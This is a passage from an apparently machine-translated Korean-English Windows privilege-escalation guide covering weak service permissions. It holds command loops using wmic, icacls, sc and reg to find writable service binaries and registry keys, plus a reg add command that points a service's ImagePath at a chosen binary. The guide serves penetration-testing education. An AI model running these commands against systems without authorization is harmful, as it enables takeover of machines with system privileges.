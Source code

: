 * **SERVICE\_CHANGE\_CONFIG**: 서비스 이진 파일의 재구성을 허용합니다.
* **WRITE\_DAC**: 권한 재구성을 가능하게 하여 서비스 구성을 변경할 수 있는 능력을 부여합니다.
* **WRITE\_OWNER**: 소유권 획득 및 권한 재구성을 허용합니다.
* **GENERIC\_WRITE**: 서비스 구성을 변경할 수 있는 능력을 상속받습니다.
* **GENERIC\_ALL**: 서비스 구성을 변경할 수 있는 능력을 또한 상속받습니다.

For the detection and exploitation of this vulnerability, the _exploit/windows/local/service\_permissions_ can be utilized.

### Services binaries weak permissions

**서비스에 의해 실행되는 이진 파일을 수정할 수 있는지 확인하거나** 이진 파일이 위치한 **폴더에 대한 쓰기 권한이 있는지 확인하십시오** ([**DLL Hijacking**](dll-hijacking/))**.**\
You can get every binary that is executed by a service using **wmic** (not in system32) and check your permissions using **icacls**:
```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
You can also use **sc** and **icacls**:
```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```
### 서비스 레지스트리 수정 권한

서비스 레지스트리를 수정할 수 있는지 확인해야 합니다.\
서비스 **레지스트리**에 대한 **권한**을 확인하려면 다음을 수행하십시오:
```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```
**인증된 사용자** 또는 **NT AUTHORITY\INTERACTIVE**가 `FullControl` 권한을 가지고 있는지 확인해야 합니다. 그렇다면 서비스에 의해 실행되는 바이너리를 변경할 수 있습니다.

실행되는 바이너리의 경로를 변경하려면:
```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```
### 서비스 레지스트리 AppendData/AddSubdirectory 권한
